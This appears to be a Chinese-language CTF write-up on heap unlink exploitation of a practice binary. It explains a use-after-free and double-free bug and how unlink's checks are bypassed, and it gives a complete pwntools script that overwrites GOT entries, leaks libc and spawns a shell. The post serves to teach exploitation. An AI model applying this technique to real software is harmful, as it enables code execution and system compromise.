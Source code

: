 ```yaml
---
title: heap unlink
data: 2018-08-06
tag: pwn
layout: post
---
```

[bin](https://github.com/void0red/code/blob/master/task/2018_07_30/first)地址

### 0x00问题所在

1. free后的堆指针没用置空
2. free没有对flag进行判断是否已经free过了

### 0x01unlink

- 发生在free一个chunk，发现相邻的chunk处于free状态，从bin双链表取出来的时候，合并至少两个free chunk。前一个chunk的状态通过`p->presize`的最低位来判断，后一个chunk的状态通过`(p+p->size+(p+size)->size)->presize`的最低位来判断。

- unlink的检查：

  - `p->fd->bk == p && p->bk->fd == p` 

    绕过：寻找`*ptr == p`

  - `((p+p->size)->presize)&0x1 == 0 && ((p+p->size)->preseize) == p->size`

    绕过：覆盖nextchunk的presize

- unlink

  ```c
  //定义:
  FD = p->fd;
  BK = p->bk;
  FD->bk = BK;
  BK->fd = FD;
  //方法：
  p->fd = ptr-0x8*3;
  p->bk = ptr-0x8*2;
  //效果：
  *ptr = p->fd;
  //*ptr = ptr-0x8*3
  ```

### 0x02分析

- 堆指针依次保存在`0x6020e0` 中，记为`list`

  ```c
  unsigned long int list;
  list[i*2] = chunkp;
  list[i*2+1] = flag;
  ```


- 利用`unlink`篡改堆指针，因为构造一次`unlink`只能修改`ptr`处的值，而且`ptr`必需保存`unlink`对象堆的指针，所以尽量把他修改为保存堆指针`list`中的某处地址，然后伪造list中的数据，再利用edit，修改list中伪造地址的数据
- 构造`unlink`的`fd, bk`，要使`ptr-0x8*3`落在`list`地址的范围，同时`ptr`还要保存`unlink`对象堆地址，也就是list[i*2]，取`ptr == list+0x18+0x8 == list[4]`，即`unlink(chunk2)`，配合`unlink`还需要一个相邻的堆，所以考虑先获得两个堆的指针。

### 0x03 利用

- 首先申请两个0x100的堆再释放，目的是保存两个堆的指针，接着申请0x100*2+0x10(chunk header size)的堆，这个堆应该填充在先前释放的两个堆的位置。

  ![](https://raw.githubusercontent.com/void0red/Pictures/master/blog/unlink0.png)

- 然后free后面一个实际上不存在，但是有个残留指针的堆，触发前一个堆的`unlink`， 导致`*ptr == list[4]`修改为`ptr-0x8*3 == list+0x18+0x8-0x8*3 == list[1]`即chunk1的flag处。

- 利用edit(chunk2)修改`list`的数据，从chunk1的flag处开始，修改`list[2] = free@got; list[4] = read@got`

- 利用edit(chunk1)修改`free`函数地址为`puts`函数地址，然后free(chunk2)就会打印`read`函数的地址

- 利用动态链接库计算`system`函数的地址，并用edit(chunk1)修改`free(puts)`函数地址为`puts`函数地址

- 任意申请一个堆存入`/bin/sh\x00`，调用free即触发`system`

### 0x04code

```python
# use to save two pointers in list, not fastbin
create(2, 0x100, 'a')
create(1, 0x100, 'a')

delete(2)
delete(1)

list_addr = 0x6020e0

# p_addr also set to list[4](save index2's pointer)
p_addr = list_addr + 0x18 + 0x8
# size = 0x100+0x100+0x10(chunk1 header)
# fake data(low addr --> high addr): chunk0p->(presize, size&inuse, fd, bk, data), chunk1p->(presize, size&inuse)
# keep: [1]p->fd->bk == p->bk->fd == p, [2]p->size == (p+size)->presize
create(2, 0x210, p64(0)+p64(0x101)+p64(p_addr-0x18)+p64(p_addr-0x10)+'a'*(0x100-0x20)+p64(0x100)+p64(0x210-0x100))

# when free chunk1, inuse bit is `0`, than unlink chunk0, p->fd->bk = p->bk, p->bk->fd = p->fd
# *p_addr = p->fd = p_addr-0x18 = list_addr+0x8
delete(1)

# fake data: index0_flag, index1p, index1_flag, index2p, index2_flag
edit(2, p64(0)+p64(elf.got['free'])+p64(1)+p64(elf.got['read'])+p64(1))


# change free to puts
edit(1, p64(elf.symbols['puts']))

# puts(&list[4]) == puts(free@got)
delete(2)

read_addr = u64(p.recv(6) + '\x00'*2)
system_addr = libc.symbols['system'] - libc.symbols['read'] + read_addr

# change puts to system
edit(1, p64(system_addr))

create(3, 0x20, '/bin/sh')

# system('/bin/sh')
delete(3)
p.interactive()
```

